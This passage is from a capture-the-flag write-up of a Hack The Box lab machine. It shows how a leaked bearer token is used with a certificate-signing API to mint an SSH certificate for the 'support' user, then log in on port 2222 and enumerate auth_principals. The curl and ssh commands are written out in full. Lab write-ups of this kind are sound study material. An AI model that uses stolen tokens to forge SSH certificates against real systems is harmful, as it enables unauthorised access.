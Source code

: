 Execute that and we will get the request. Since we have the principal and token via the script above, we can create an RSA and sign it via <mark style="color:red;">**`/v1/sign`**</mark>

```bash
ssh-keygen -t rsa -b 2048 -f key && chmod 600 key
```

{% hint style="info" %}
Copy the content of <mark style="color:red;">**`key.pub`**</mark> to the curl command
{% endhint %}

```bash
curl -X 'POST' \
  'http://signserv.ssg.htb/v1/sign' \
  -H 'accept: text/plain' \
  -H 'Content-Type: application/json' \
  -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE" \
  -d '{
  "pubkey": "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCKor2dznpKLpt6EDM+YOE94cD00tkvELQ7/a+0C7rWFAChJRoNCna2JiuSJOTtawkf74uMM+xqwBtYhfBSHsTNlNCmsDFsdlRefNA6+OjYeNNMBueY1k+m09MbXBI6FHg5t40kXnLdveuY6r429kFD1DVrUnXsu8cye5bHwoTA8QNV0pTYViAvCF6HfFPTBfWMyzb/ZSZr2cup06yFCOpKzGHIATQYhUc/QkcxJFXIbWs+ZBPZDlntgvUEDJe8av3TH+i3TZur6uZkHEILOfKFaHGb7r+akQTbyeqa20xWIGHu1is7TM9EM+LJTQkb70FnXktYKR1io/KZwiEmIQFz kali@kali",
  "principals": "support",
  "username": "support"
}' \
> key-cert.pub
```

There are 4 principals ( webserver, analytics, support, security) with their corresponding usernames introduced in the explanation of the script. Only the support pair will work.

Since port 22 is for the host <mark style="color:red;">**`itrc`**</mark>, we can try to use the private key to log in to another SSH port 2222:

```bash
ssh -o CertificateFile=key-cert.pub -i key support@ssg.htb -p 2222
```

<figure><img src="../../../.gitbook/assets/support-ssg.png" alt=""><figcaption></figcaption></figure>

We are now in the host <mark style="color:red;">**`ssg`**</mark>

## Zzinter - SSG

We can enter <mark style="color:red;">**`/etc/ssh/auth_principals`**</mark> directory which is typically used for OpenSSH Certificate Authentication. Each file in this directory corresponds to a principal name and contains the list of allowed principals for the corresponding user.

<figure><img src="../../../.gitbook/assets/support-ssg-2.png" alt=""><figcaption></figcaption></figure>
